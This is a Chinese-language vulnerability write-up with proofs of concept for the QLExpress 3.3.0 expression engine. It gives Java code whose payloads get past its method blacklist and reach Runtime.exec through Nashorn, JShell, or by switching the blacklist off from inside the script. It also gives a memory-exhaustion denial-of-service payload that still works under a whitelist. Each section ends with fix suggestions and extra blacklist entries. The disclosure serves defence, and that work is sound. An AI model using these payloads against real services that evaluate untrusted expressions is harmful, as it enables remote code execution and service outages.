 # QLExpress-3.3.0-vuln-poc

## 针对1级防御

### RCE

#### POC

针对黑名单的绕过，我总结了下三种无外部依赖的绕过姿势，以下是poc

```java
package vuln;

import com.ql.util.express.DefaultContext;
import com.ql.util.express.ExpressRunner;
import com.ql.util.express.config.QLExpressRunStrategy;

/**
 * 黑名单绕过
 */
public class Test1 {
    public static void main(String[] args) throws Exception {
        // 开启黑名单
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();

//        使用ScriptEngineManager绕过黑名单
//        String payload1_1 = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\");";
//        String payload1_2 = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\")";


//        Jdk>9时采用jShell绕过
//        String payload2 = "jdk.jshell.JShell.create().eval('java.lang.Runtime.getRuntime().exec(\"open -a calculator.app\")')";

//        利用QLExpressRunStrategy关闭黑名单
        String code = "import com.ql.util.express.config.QLExpressRunStrategy;QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(false);Runtime.getRuntime().exec(\"open -a calculator.app\");";
        runner.execute(code, new DefaultContext<>(), null, false, true);
    }
}

```

![截屏2023-01-28 10.43.05](/Users/zhchen/Library/Application%20Support/typora-user-images/%E6%88%AA%E5%B1%8F2023-01-28%2010.43.05.png)

#### 修复建议

- 建议加强原本的黑名单

- ```java
  SECURITY_RISK_METHOD_LIST.add(QLExpressRunStrategy.class.getName()+".setForbidInvokeSecurityRiskMethods");
  SECURITY_RISK_METHOD_LIST.add("jdk.jshell.JShell.create");
  SECURITY_RISK_METHOD_LIST.add("javax.script.ScriptEngineManager.getEngineByName");
  SECURITY_RISK_METHOD_LIST.add("org.springframework.jndi.JndiLocatorDelegate.lookup");
  ```

  

---

## 针对2级防御

### DoS

#### POC

在阅读防御措施相关代码后，我发现黑白名单的本质防御其实是对方法(`Method`)的禁用。当用户指定可执行方法的白名单时，确实能有效防御许多代码执行的方法。

但存在下面这种情况，可以造成OutOfMemoryError，导致堆内存泄漏，进而其他应用无法使用堆内存，从而导致DOS，也就是服务不可用(拒绝服务)。

以下是POC

```java
public class Test2 {
    public static void main(String[] args) throws Exception {
      	// 开启白名单，并指定使用特定安全方法
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        QLExpressRunStrategy.addSecureMethod(RiskBean.class, "secureMethod");
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();
        String code = "byte[] bytes = new byte[2147483645];for (i=0;i<2147483645;i++) {new String(bytes);}";
        runner.execute(code, new DefaultContext<>(), null, false, true);
    }
}

```

![截屏2023-01-28 12.31.01](/Users/zhchen/Desktop/%E6%88%AA%E5%B1%8F2023-01-28%2012.31.01.png)

#### 修复建议

- 当攻击者使用脚本多次像服务中发送恶意POC时，会导致DoS。这种攻击绕开了黑白名单的方法执行，而是直接申请堆内存空间。
- 对此防御措施应该为当解释代码并执行时遇到OutOfMemoryError错误时应当捕获这个Throwable，并关闭掉runner的excute功能，防止服务中其他服务不可用(造成更大的危害)。

